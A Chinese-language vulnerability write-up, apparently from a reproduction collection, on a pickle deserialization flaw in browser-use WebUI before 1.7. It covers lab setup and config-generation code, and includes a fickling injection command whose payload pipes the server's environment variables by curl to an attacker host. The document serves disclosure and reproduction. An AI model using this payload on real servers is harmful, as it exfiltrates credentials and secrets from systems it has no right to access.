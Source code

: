 # browser-use WebUI pickle 反序列化漏洞

## 漏洞描述

browser-use WebUI 是基于 browser-use 的 AI Agent 应用。2025 年 4 月，互联网上披露其旧版接口 update_ui_from_config 存在一个 pickle 反序列化漏洞，未经授权的远程攻击者可以利用该接口发送恶意的序列化数据，实现在服务端执行任意代码，导致服务器失陷。

参考链接：

- https://github.com/browser-use/web-ui/commit/7fdf95edaeaf2505b36c10966b7b8d65359f1de6
- https://research.kudelskisecurity.com/2025/04/23/getting-rce-on-browser-use-web-ui-ai-agent-instances/
- https://github.com/browser-use/web-ui/tree/v1.6

## 披露时间

2025-04-28

## 漏洞影响

```
browser-use WebUI < 1.7
```

## 环境搭建

根据 [官方文档](https://github.com/browser-use/web-ui/tree/v1.6)，执行以下命令搭建并启动一个 1.6 版本的 browser-use WebUI：

```
# 检出 1.6 版本
git clone https://github.com/browser-use/web-ui.git
cd web-ui/
git checkout v1.6

# 创建 python 3.11 虚拟环境（官方文档为 uv，此处为 anaconda）
conda create -n web-ui python=3.11
conda activate web-ui

# 安装依赖
pip install -r requirements.txt
playwright install

# 配置环境
copy .env.example .env

# 启动服务
python webui.py --ip 127.0.0.1 --port 7788
```

注意，除了官方 `requirements.txt` 中的 python 依赖外，需要另外安装 `socksio` 和 `pysocks`，回退 `gradio` 至旧版本，否则将引发错误：

```
pip install socksio pysocks
pip install gradio==5.23.0
```

环境启动后，访问 `http://your-ip:7788/`，此时 WebUI 1.6 已经成功运行。

![](images/browser-use%20WebUI%20pickle%20反序列化漏洞/image-20250507140601827.png)

## 漏洞复现

漏洞位于 `src/utils/default_config_settings.py`，服务器未对用户上传的 `.pkl` 配置文件进行校验，攻击者可以加载包含任意代码的恶意 pickle 文件：

![](images/browser-use%20WebUI%20pickle%20反序列化漏洞/image-20250507141416084.png)

首先，我们创建一个名为 `default.pkl` 的常规 pickle 配置文件，其中包含默认的 WebUI 配置：

```python
import pickle
import uuid
import os

def default_config():
    """Prepare the default configuration"""
    return {
        "agent_type": "custom",
        "max_steps": 100,
        "max_actions_per_step": 10,
        "use_vision": True,
        "tool_calling_method": "auto",
        "llm_provider": "openai",
        "llm_model_name": "gpt-4o",
        "llm_temperature": 1.0,
        "llm_base_url": "",
        "llm_api_key": "",
        "use_own_browser": os.getenv("CHROME_PERSISTENT_SESSION", "false").lower() == "true",
        "keep_browser_open": False,
        "headless": False,
        "disable_security": True,
        "enable_recording": True,
        "window_w": 1280,
        "window_h": 1100,
        "save_recording_path": "./tmp/record_videos",
        "save_trace_path": "./tmp/traces",
        "save_agent_history_path": "./tmp/agent_history",
        "task": "go to google.com and type 'OpenAI' click search and give me the first url",
    }
    
def load_config_from_file(config_file):
    """Load settings from a UUID.pkl file."""
    try:
        with open(config_file, 'rb') as f:
            settings = pickle.load(f)
        return settings
    except Exception as e:
        return f"Error loading configuration: {str(e)}"
        
def save_config_to_file(settings, save_dir="./tmp/webui_settings", name=None):
    """Save the current settings to a UUID.pkl file with a UUID name."""
    os.makedirs(save_dir, exist_ok=True)
    outname = f"{uuid.uuid4()}.pkl"
    if name is not None:
        outname = name
    config_file = os.path.join(save_dir, outname)
    with open(config_file, 'wb') as f:
        pickle.dump(settings, f)
    return f"Configuration saved to {config_file}"
    
def update_ui_from_config(loaded_config):
    if isinstance(loaded_config, dict):
        print("load success")
        return loaded_config.get("agent_type", "custom")
    else:
        pass
        print("not a dict object")
    return "foobar"
    
if __name__ == "__main__":
    save_config_to_file(default_config(), save_dir=".", name="default.pkl")
```

接下来，我们安装 [fickling](https://github.com/trailofbits/fickling) 并使用它将恶意代码注入 pickle 文件。以下命令将生成一个名为 `malicious.pkl` 的恶意文件，该文件在加载时，将运行 `env | curl -XPOST http://your-ip:9999 --data-binary @-` ，泄露目标服务器的环境变量到攻击者服务器：

```
# 安装依赖
python -m pip install fickling

# 注入恶意代码
fickling --inject "os.system('env | curl -XPOST http://your-ip:9999 --data-binary @-')" default.pkl > malicious.pkl
```

最后，我们通过 WebUI 的 Configuration 选项卡加载此文件：

![](images/browser-use%20WebUI%20pickle%20反序列化漏洞/image-20250507142719674.png)

监听 `9999` 端口，即可接收到 `env` 的执行结果：

![](images/browser-use%20WebUI%20pickle%20反序列化漏洞/image-20250507143023954.png)

## 漏洞修复

升级至最新版本。
